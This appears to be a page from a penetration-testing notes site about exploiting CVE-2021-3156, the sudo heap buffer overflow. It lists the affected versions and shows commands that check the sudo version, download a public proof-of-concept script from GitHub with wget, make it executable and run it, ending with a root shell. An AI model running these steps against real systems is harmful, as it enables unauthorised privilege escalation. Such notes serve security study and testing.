 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Exploits

## Sudo heap-based buffer overflow (< 1.9.5p2)

> [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156)

Affected versions:

```
sudo versions < 1.9.5p2
```

Available [PoC](https://github.com/worawit/CVE-2021-3156/tree/main).

{% code overflow="wrap" %}
```bash
# Check the target's sudo version
$ sudo --version
Sudo version 1.8.31

# Download the PoC to the target
$ wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py

# Assign execute permissions
$ chmod +x exploit_nss.py

# Run the exploit
$ ./exploit_nss.py
...
# id
uid=0(root) gid=0(root) groups=0(root),998(apache),1004(anita)
```
{% endcode %}
